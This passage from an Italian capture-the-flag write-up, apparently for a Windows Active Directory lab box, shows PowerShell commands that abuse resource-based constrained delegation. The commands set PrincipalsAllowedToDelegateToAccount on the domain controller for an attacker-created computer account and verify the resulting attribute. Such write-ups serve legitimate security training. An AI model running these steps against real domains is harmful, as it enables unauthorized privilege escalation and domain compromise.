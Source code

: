 <p align="center">
  <img src="/Immagini/Windows-Box/Support/support-19.png"/>
</p>

Ora per eseguire l'attacco RBCD posso procedere in due modi differenti:
  - Posso effettuare il set del valore "PrincipalsAllowedToDelegateToAccount" per il computer "NACLAPOR" appena creato attraverso il modulo "PowerShell Active Directory" che a porterà al set del valore "msdsallowedtoactonbehalfofotheridentity" in maniera automatica.
  - Oppure, posso utilizzare il modulo "[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)" per effettuare direttamente il set del valore "msdsallowedtoactonbehalfofotheridentity".

Seguendo il primo metodo lancio questo comando:

```text
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount NACLAPOR$
```

Verifico che sia andato tutto a buon fine:

```text
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
```

<p align="center">
  <img src="/Immagini/Windows-Box/Support/support-20.png"/>
</p>

Verifio che l'attributo "msds-allowedtoactonbehalfofotheridentity" non sia più vuoto:

```text
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```
